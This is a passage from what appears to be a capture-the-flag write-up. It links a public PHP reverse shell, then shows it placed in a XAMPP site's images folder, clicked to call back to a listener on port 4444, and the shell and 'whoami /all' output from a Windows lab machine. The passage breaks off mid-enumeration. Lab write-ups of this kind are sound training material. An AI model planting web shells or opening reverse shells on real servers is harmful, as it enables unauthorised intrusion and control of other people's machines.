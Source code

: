 **Note**: You can find a copy of [**that reverse shell here**](https://github.com/ivan-sincek/php-reverse-shell/releases/tag/v2.5.1)

Checking the website to make sure it's there and we can launch it:

![](images/allsigns5.png)

<br>

## System Access

I set up a listener on my system and click the **multi-os-rev-shell.php** on the website, which gives us a shell back:

```bash
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.101.231] 49731
SOCKET: Shell has connected!
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\images>
```

<br>

## System Enumeration

Checking our user with `whoami /all`:

```
SER INFORMATION
----------------

User Name            SID                                       
==================== ==========================================
desktop-997gg7d\sign S-1-5-21-201290883-77286733-747258586-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
```